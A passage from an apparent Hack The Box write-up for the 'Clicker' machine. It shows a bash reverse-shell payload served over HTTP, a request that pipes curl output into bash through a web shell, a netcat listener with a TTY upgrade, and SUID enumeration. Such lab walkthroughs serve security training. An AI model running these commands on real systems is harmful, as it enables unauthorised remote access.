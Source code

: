 Get a reverse shell

```bash
┌──(bravosec㉿fsociety)-[~/htb/Clicker]
└─$ mkdir -p www&&cd www

┌──(bravosec㉿fsociety)-[~/htb/Clicker/www]
└─$ echo '/bin/bash -i >& /dev/tcp/10.10.16.24/1111 0>&1' > index.html

┌──(bravosec㉿fsociety)-[~/htb/Clicker/www]
└─$ python -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```

```bash
┌──(bravosec㉿fsociety)-[~/htb/Clicker]
└─$ curl -X POST 'http://clicker.htb/exports/top_players_kjzxdpvc.php?0=curl+10.10.16.24|/bin/bash'
```

```bash
┌──(bravosec㉿fsociety)-[~/htb/Clicker]
└─$ nc -lvnp 1111
listening on [any] 1111 ...
connect to [10.10.16.24] from (UNKNOWN) [10.129.159.15] 52492
bash: cannot set terminal process group (1256): Inappropriate ioctl for device
bash: no job control in this shell
www-data@clicker:/var/www/clicker.htb/exports$ python3 -c 'import pty; pty.spawn("/bin/bash")'
<ts$ python3 -c 'import pty; pty.spawn("/bin/bash")'
www-data@clicker:/var/www/clicker.htb/exports$ ^Z
zsh: suspended  nc -lvnp 1111

┌──(bravosec㉿fsociety)-[~/htb/Clicker]
└─$ stty raw -echo;fg
[1]  + continued  nc -lvnp 1111

www-data@clicker:/var/www/clicker.htb/exports$ export TERM=xterm
www-data@clicker:/var/www/clicker.htb/exports$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```


## From www-data to jack


### SUID binary

```bash
www-data@clicker:/var/www/clicker.htb/exports$ cat /etc/passwd|grep sh$
root:x:0:0:root:/root:/bin/bash
jack:x:1000:1000:jack:/home/jack:/bin/bash
```

```bash
www-data@clicker:/var/www/clicker.htb/exports$ find / -type f -perm -4000 -ls 2>/dev/null
    11792    228 -rwsr-xr-x   1 root     root       232416 Apr  3  2023 /usr/bin/sudo
      605     44 -rwsr-xr-x   1 root     root        44808 Nov 24  2022 /usr/bin/chsh
      729     72 -rwsr-xr-x   1 root     root        72072 Nov 24  2022 /usr/bin/gpasswd
      713     36 -rwsr-xr-x   1 root     root        35200 Mar 23  2022 /usr/bin/fusermount3
     1143     56 -rwsr-xr-x   1 root     root        55672 Feb 21  2022 /usr/bin/su
     1219     36 -rwsr-xr-x   1 root     root        35192 Feb 21  2022 /usr/bin/umount
      874     40 -rwsr-xr-x   1 root     root        40496 Nov 24  2022 /usr/bin/newgrp
      599     72 -rwsr-xr-x   1 root     root        72712 Nov 24  2022 /usr/bin/chfn
      908     60 -rwsr-xr-x   1 root     root        59976 Nov 24  2022 /usr/bin/passwd
      862     48 -rwsr-xr-x   1 root     root        47480 Feb 21  2022 /usr/bin/mount
      330    332 -rwsr-xr-x   1 root     root       338536 Aug 24 13:40 /usr/lib/openssh/ssh-keysign
     1441     36 -rwsr-xr--   1 root     messagebus    35112 Oct 25  2022 /usr/lib/dbus-1.0/dbus-daemon-launch-helper
```